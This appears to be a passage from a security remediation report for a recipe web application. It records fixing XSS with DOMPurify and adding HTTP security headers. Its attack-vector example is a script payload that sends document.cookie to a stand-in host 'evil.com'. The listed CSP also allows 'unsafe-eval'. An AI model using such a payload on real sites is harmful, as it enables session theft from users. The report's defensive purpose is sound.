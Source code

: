 ### ✅ FIXED: XSS Protection (MEDIUM SEVERITY)

**Issue:** User-generated content (recipe titles, descriptions) not sanitized, allowing potential script injection attacks.

**Attack Vector:**
```javascript
// Malicious recipe title:
"Best Cookies <script>fetch('https://evil.com?cookie='+document.cookie)</script>"
```

**Fix Applied:**
1. Installed DOMPurify library
2. Created `/src/lib/sanitize.ts` utility
3. Applied `sanitizeText()` to all user content displays

**Protected Components:**
- ✅ Recipe detail pages (user & global)
- ✅ Recipe cards
- ✅ Recipe titles and descriptions everywhere

**Verification:** ✅ Script tags stripped, event handlers removed  
**Commit:** `264438a` - Add XSS protection and security headers

---

## 🟡 MEDIUM PRIORITY ISSUES

### ✅ FIXED: Missing Security Headers (LOW-MEDIUM SEVERITY)

**Issue:** Application lacked HTTP security headers, allowing clickjacking and MIME sniffing attacks.

**Fix Applied - Headers Added:**
```javascript
// next.config.js
{
  'Content-Security-Policy': "script-src 'self' 'unsafe-eval'...",
  'X-Frame-Options': 'DENY',
  'X-Content-Type-Options': 'nosniff',
  'X-XSS-Protection': '1; mode=block',
  'Referrer-Policy': 'strict-origin-when-cross-origin',
  'Permissions-Policy': 'camera=(), microphone=()'
}
```

**Protected Against:**
- ✅ Clickjacking (X-Frame-Options)
- ✅ MIME sniffing (X-Content-Type-Options)
- ✅ Code injection (CSP)
- ✅ Privacy leaks (Referrer-Policy)

**Verification:** ✅ Headers present on all routes  
**Commit:** `264438a` - Add XSS protection and security headers

---